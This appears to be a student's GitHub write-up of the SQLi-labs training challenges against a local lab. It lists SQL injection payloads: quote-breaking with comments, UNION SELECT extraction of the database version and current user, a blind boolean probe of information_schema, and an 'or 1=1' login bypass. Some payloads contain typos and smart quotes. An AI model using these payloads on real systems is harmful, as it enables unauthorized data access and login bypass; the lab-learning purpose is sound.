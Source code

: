 # Web Exploitation

## SQLI Lab Challenges

### Challenge 1 --> GET Error Based Single Quotes String

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/1.jpeg?raw=true)

- Input the Id as Parameter with numerical value.
- Use **\?variable name = value** after the URL.
- Here the variable name is **ID**.
- The value is any numerical value. **Eg : 1**
- Main Query is **Select * from TABLE where id='given_value';**
- With our input as 1 complete backend query will be 
```
SELECT * from table_name WHERE id=’1’ LIMIT 0,1
```

- With our input as 1’ complete backend query will be 
 ```
SELECT * from table_name WHERE id=’1’’ LIMIT 0,1
```
- which is syntactically incorrect and by giving input as, 

```
1’–+ (1 quote hyphen hyphen plus)
1’–%20 (%20 URL encoding for space)
1’%23 (%23 URL encoding for #)

--> %20 for. spaces  
--> %23 for. #
```

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/2.jpeg?raw=true)

### Challenge 2 --> GET Error Based Integer Based

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/3.jpeg?raw=true)

- Now we try to attack by putting in strings such as “abc“and “xyz” 
- We observe that for lesson 2 we receive an error from the database. 
- If we put id = 1' we again get an error in the Mysql server for incorrect syntax.  **You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘\’ LIMIT 0,1′ at line 1**
- Now the query which it changes to is

```
Select * from TABLE where id = 1’ ;
```
So we have an odd number of single quotes (‘), which breaks the query and takes it as an integer.

```
Select * from TABLE where id = (some integer value); ;
```

- To avoid such errors we can comment out the rest of the query.

**We inject the code with ?id=1′%20 --** 

( OR )

**We inject the code with ?id=1′%23 #** 

```
Select * from TABLE where id = 1’%20 -- ;

( OR )

Select * from TABLE where id = 1’%23 # ;
```

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/4.jpeg?raw=true)

### Challenge 3 --> Error Based Single Quotes with twist String

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/5.jpeg?raw=true)

- If we put some strings and number to check how the query is working we will get an error message **Server version for the right syntax to use near ””) LIMIT 0,1′ at line 1**

```
--> So the Query at Back End is,

Select login_name, select password from table where id= (‘our input here’)
```

**So if we inject the code with ?id=1′) –+****  

- To avoid such errors we can comment out the rest of the query.

```
Select * from TABLE where id = ('1’) -- ;
```

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/6.jpeg?raw=true)

### Challenge 4 --> Error Based Double Quotes String

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/7.jpeg?raw=true)

- If we put some strings and number to check how the query is working we will get an error message **Server version for the right syntax to user near '"1"") LIMIT 0,1' at line 1**

```
--> So the Query at Back End is,

Select login_name, password from table where id= ("our input here ")
```

**So if we inject the code with ?id=1") --+******  

- To avoid such errors we can comment out the rest of the query.

```
Select * from TABLE where id = ("1") -- ;
```

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/8.jpeg?raw=true)

### Challenge 5 --> Fixing the Query without using Comments

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/9.jpeg?raw=true)

- If we use the union select command to get more sensitive information from the database.  

```
--> In this query we use the version() function for detecting the database version; 

-6′ union select 5, version(),3 AND ‘1

--> Displays user Information
-6′ union select 5,current_user,3 AND ‘1
```



### Challenge 8 --> Blind Boolean Based Single Quotes

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/12.jpeg?raw=true)

```
--> We know 1 is not equal to 1 hence database answer as ‘TRUE’ query.

SELECT * from table_name WHERE id=1' AND 1=1

--> We know 1 is not equal to 0 hence database answer as ‘FALSE’ query.

SELECT * from table_name WHERE id=1' AND 1=0

--> Test the condition whether the length of string for the first table is greater than 5 or not.

http://localhost/sqli-labs/Less-8/?id=1)' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) > 5 --+
```


### Challenge 11 & 12 --> Post Error-based single & double quotes

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/15.jpeg?raw=true)

![Minion](https://github.com/abhishekabi2002/Bi0s/blob/master/Web%20Exploitation/Assets/16.jpeg?raw=true)

- By trying various SQL Injections we come to know that the Query being used in Back End is ,

```
Select * from TABLE where username= (“$uname”) and password=(“$password”) LIMIT 0,1
```
- If we comment the rest after **Username** then we will be able to get **Login**.
```
Username = “) or 1=1 #

( OR )

Username = “) or 1=1 LIMIT 2,1 #
```

#### References --> https://github.com/Audi-1/sqli-labs
